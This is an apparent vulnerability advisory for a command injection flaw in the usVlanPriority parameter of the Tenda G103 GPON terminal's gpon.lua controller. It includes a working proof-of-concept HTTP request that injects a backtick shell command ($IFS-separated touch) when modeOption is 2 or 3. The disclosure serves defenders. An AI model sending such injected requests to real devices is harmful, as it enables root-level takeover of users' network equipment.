



# Tenda G103 Command Injection Vulnerability in `usVlanPriority` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability arises due to improper sanitization of the `usVlanPriority` parameter, which is directly concatenated into system commands when `modeOption` is set to 2 or 3 (manual VLAN mode). Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, leading to potential full device compromise.

The environment can be simulated using FirmAE:


## Details


*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com](https://tenda.com.cn/material/show/2615)[.cn/m](https://tenda.com.cn/material/show/2615)[ateri](https://tenda.com.cn/material/show/2615)[al/sh](https://tenda.com.cn/material/show/2615)[ow/26](https://tenda.com.cn/material/show/2615)[15](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `usVlanPriority`

*   **Trigger Condition**: `modeOption` must be set to 2 or 3 (manual VLAN configuration mode)

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, VLAN configuration tampering, network traffic manipulation, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function processes the `usVlanPriority` parameter, which configures the priority of user-side VLAN tags. A critical security flaw exists: when `modeOption` is set to 2 or 3, the `usVlanPriority` parameter is directly passed to the `fw_setenv` system command without sanitization or validation.

Key vulnerable code in `gpon.lua`:





Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `usVlanPriority` parameter. Since these characters are not filtered, the injected payload is parsed and executed by the system shell when the command runs—specifically when `modeOption` is set to 2 or 3.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File


```
POST /cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 74
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: \*/\*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: http://192.168.0.1
Referer: http://192.168.0.1/cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; sysauth=1db9fe0d814594958dc79f73fa79196d; sysauth=; repeatTimes=2; isLogin=true
Connection: keep-alive

&authSerialNo=&modeOption=3&usVlanId=0&usVlanPriority=1`touch$IFS/tmp/usVlanPriority.txt`&oltType=0&dhcpen=0
```

#### Execution Steps:


1.  Send the POST request above with `modeOption=3` (to trigger manual VLAN mode), a valid `stok`, and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/usVlanPriority.txt`.

#### Expected Result:

The file `/tmp/usVlanPriority.txt` is created, confirming successful execution of the injected `touch` command.







